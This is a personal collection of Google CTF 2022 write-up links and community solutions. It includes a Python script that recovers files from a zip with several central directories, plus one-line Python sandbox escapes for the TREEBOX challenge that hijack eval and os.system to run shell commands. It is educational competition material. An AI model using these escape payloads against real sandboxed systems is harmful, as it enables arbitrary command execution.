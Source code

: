 # Google CTF 2022 Writeups - Some that I want to remember and come back to

No particular pattern to the topics here other than "I found it interesting"

I didn't solve any of these myself (Welp 😋), credits for the solutions included where I could find them.

## APPNOTE.TXT 

[Link 1](https://able.bio/sudoaza/appnotetxt-google-ctf-2022--32ef39da) 

[Link 2](https://github.com/piyagehi/CTF-Writeups/blob/main/2022-Google-CTF/misc-appnote.md) ZIP file with dozens (hundreds) of smaller files in it?

@`ContronThePanda#5339`
```py
#!/usr/bin/env python3

# The `dump.zip` file contains multiple central directory structures,
# each of which points to only a single file in the archive.
# By default, zip utilities/parsers scan from the end of the file to find the *last*
# end of central directory signature, and use that central directory.
# By deleting that signature from the last central directory,
# we can make the regular Linux `unzip` utility read the second-to-last central directory instead.
# We can repeat this process to get all of the files in all of the central directories extracted.

from os import system

# Read the zipfile and reverse it, so we can substitute starting from the end
with open('dump.zip', 'rb') as f: zf = f.read()[::-1]

while True:
    # Overwrite the signature with zeroes
    # Since we do this before unzipping the first time,
    # we miss the first central directory,
    # but that one doesn't contain anything important
    zfnew = zf.replace(b'\x06\x05\x4b\x50', b'\0\0\0\0', 1)
    # If nothing was replaced, there are no central directories left
    if zfnew == zf: break
    zf = zfnew
    # Write the modified zip file out
    with open('dump-ed.zip', 'wb') as f: f.write(zf[::-1])
    # Unzip the file with the Linux `unzip` utility
    # The `-o` flag overwrites existing files without asking,
    # just in case we've previously extracted some
    # We redirect the output because the program complains very loudly about what we're doing,
    # even though it still works
    system('unzip -o dump-ed.zip >/dev/null 2>&1')

# The glob will put the files in alphabetical order,
# which is the correct order in this case
system('cat flag*')
# Newline
print()
```

## JS Safe 4.0 

[Link](https://lightstack.ml/posts/googlectf22_jssafe4/)

## TREEBOX 

[Link](https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/)

Shorter solutions I found on the disc
@`crazyman#6644`
```py
tree.__class__.__getitem__ = eval
tree["__import__('os').system('cat flag')"]
```
![Solution image](https://cdn.discordapp.com/attachments/984517082853036103/993224517658890270/unknown.png)

@`温柔小🐷#0995`
```py
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```





#### That's all for now. 😄
I'll stalk the gCTF discord for more solutions (Maybe)